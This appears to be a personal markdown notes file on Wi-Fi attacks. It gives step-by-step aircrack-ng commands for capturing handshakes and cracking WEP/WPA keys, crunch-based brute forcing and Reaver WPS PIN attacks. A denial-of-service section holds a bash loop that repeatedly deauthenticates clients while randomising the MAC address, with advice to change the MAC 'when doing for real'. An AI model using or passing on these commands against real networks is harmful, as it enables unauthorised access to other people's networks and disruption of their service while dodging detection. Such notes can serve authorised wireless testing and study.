# Wireless Vulnerablities
## overview of tools 
### aircrack-ng  
from this https://ubuntuforums.org/showthread.php?t=528276  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor|manage`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
1. `airmon-ng check wlan0`  
2. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
1. `airodump-ng wlan0`  
2. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write dump.pca wlan0`  
##### seperate terminal  
3. `sudo aireplay-ng -1 0 -e <target_essid> -a 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>` -1... '0' deauthenticates all clients. -e... ESSID of target access point. -a... MAC address of target access point. -h... MAC address of your choice. its either no mac filtering or mac filtering  
Mac filtering is turned off  
```
18:22:32 Sending Authentication Request
18:22:32 Authentication successful
18:22:32 Sending Association Request
18:22:32 Association successful :-)
```
##### No MAC filtering  
--- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... MAC address of your choice.  
##### MAC filtering 
-- `sudo aireplay-ng -0 5 -a 00:09:5B:D7:43:A8 -c 00:00:00:00:00:00 <interface>`  -0... Number of deauthentication attempts. -a... MAC address of target access point.  -c... Client MAC address.  
-- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h 00:00:00:00:00:00 <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... Client MAC address.  
##### Decryption with "aircrack-ng" & "aircrack-ptw"  
1. `sudo aircrack-ng <file_name>.cap`  
2. `./aircrack-ptw <file_name>.cap`  
`crunch 10 10 -t %%%%%%%123 | aircrack-ng -w - SCAN-test.cap -e <essid>`   
[Aircrack-ng](http://aircrack-ng.org/doku.php?id=aircrack-ng)
https://www.aircrack-ng.org/doku.php?id=cracking_wpa  

```
Aircrack-NG:
64-bit key: ~250,000 packets
128-bit key: ~1,500,000 packets

Aircrack-PTW:
64-bit key: ~20,000 packets [estimate]
128-bit key: ~85,000 packets
```

#### from video  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
7. `airodump-ng wlan0`  
8. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write SCAN_test wlan0`  
*NEW TERMINAL*  this authenticates all clients on network - 0 means just goes on forever.  let it run for a while  
9. `aireplay-ng -0 0 -a 12:34:45:45:56:88 wlan0`  
10. ctr ^ C to stop  
11. one first terminal check to see if wpa handshake is captured.  if so stop capture.  
*FRESH TERMINAL*  
12. `crunch 10 10 -t @@@@@@@@@@ | aircrack-ng -w - SCAN_test-01.cap -e <essid>`  
##### try using a list cd crunch-3.6 find charset.lst 
13. `crunch 10 10 -t @@@@@@@@@@ -f charset.lst mixalpha-numeric-space`  
14. `aircrack-ng -w /root/nmap.lst SCAN_test-01.cap`  

# REAVER v1.5.2 WiFi Protected Setup Attack Tool
`reaver --help`  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager` 
##### use wash to check if wps is locked
7. `wash -i wlan0mon`  or `wash -i wlan0mon --ignore-fcs`  
8. check PWR is above -60  
9. `airodump-ng wlan0mon`  
10. `reaver -b mac-address-of-router -i wlan0mon -c 1 -vv` 
##### you may need to self associate using aireplay-ng 
11. `aireplay-ng -1 0 wlan0mon -a <bssid>`  
12 . `reaver -i wlan0mon -b <bssid> -c 1 -A -vv`  
13. `reaver -i wlanmon -b <bssid> -c 1 -r 2:60`  

# Signal Jamming and DOS 
1. put network card into monitor mode
2. `airmon-ng check wlan0`
*note* when doing for real change mac address of wireless interface  
`ifconfig wlan0 down`
`macchanger -A wlan0`  
`ifconfig wlan0 up`
3. `airodump-ng wlan0` 
4. `aireplay-ng -0 0 -a <bssid> wlan0`  or and (-c <clients's mac>) as to not knock everyone off network.  
if you have to configure channel  
5. `iwconfig wlan0 channel <num>`  

#### write jam script
```
#!/bin/bash 
while true
do 
    aireplay-ng -0 5 -a <bssid> wlan0
    ifconfig wlan0 down
    macchanger -r wlan0 | grep "New MAC"
    iwconfig wlan0 mode monitor 
    ifconfig wlan0 up
    iwcofngi wlan0 | grep Mode
    sleep 3
    echo "Waiting!!!!!"
done
```






